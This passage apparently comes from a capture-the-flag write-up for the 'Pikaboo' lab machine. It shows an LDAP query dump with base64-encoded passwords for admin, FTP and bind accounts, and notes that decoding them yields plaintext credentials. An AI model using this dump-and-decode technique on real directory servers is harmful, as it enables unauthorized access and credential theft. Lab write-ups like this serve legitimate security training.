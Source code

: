 ```bash

# admin, htb
dn: cn=admin,dc=htb
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9bWxhdFNUTzJDZjZ6QjdVL2VyOVBUamtBVE5yZnJiVnE=

....[snip]....

# users, ftp.pikaboo.htb
dn: ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

# groups, ftp.pikaboo.htb
dn: ou=groups,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: groups

# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==

# binduser, users, pikaboo.htb
dn: cn=binduser,ou=users,dc=pikaboo,dc=htb
cn: binduser
objectClass: simpleSecurityObject
objectClass: organizationalRole
userPassword:: Sn40MiVXP1BGSGxdZw==

....[snip]....

# numResponses: 15
# numEntries: 14
```

This query dumped a lot of useful information such as administrator password for LDAP, FTP password for pwnmeow. The password stored on the LDAP server is base64 encoded, its easy to decode it. I got the plain text password for pwnmeow user.
